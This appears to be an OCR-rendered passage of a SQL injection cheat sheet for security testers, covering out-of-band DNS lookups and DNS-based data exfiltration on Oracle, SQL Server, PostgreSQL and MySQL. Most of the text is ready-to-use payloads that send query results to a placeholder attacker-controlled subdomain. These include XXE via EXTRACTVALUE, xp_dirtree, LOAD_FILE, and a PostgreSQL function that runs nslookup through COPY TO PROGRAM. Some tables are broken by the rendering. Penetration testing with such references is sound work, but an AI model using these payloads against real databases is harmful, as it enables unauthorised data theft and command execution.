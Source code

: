 You can cause the database to perform a DNS lookup to an external domain. To do this, you just need an attacker-controlled domain or subdomain that you will use in your attack, to confirm that a DNS lookup occurred.

| Database | SQL Query |
| --- | --- |
| Oracle | The following technique leverages an XML external entity ([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence: 

```mysql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

The following technique works on fully patched Oracle installations, but requires elevated privileges:  

```mysql
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
```

| Database | SQL Query |
| --- | --- |
| Microsoft | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'` |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` |
| MySQL | The following techniques work on windows only |

```mysql
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
```

```mysql
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a
```

**DNS Lookup with data exfiltration**

| Database | Query |
| --- | --- |

**Oracle**
```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

**Microsoft**
```
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
```

**PostgreSQL**
```
create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();
```
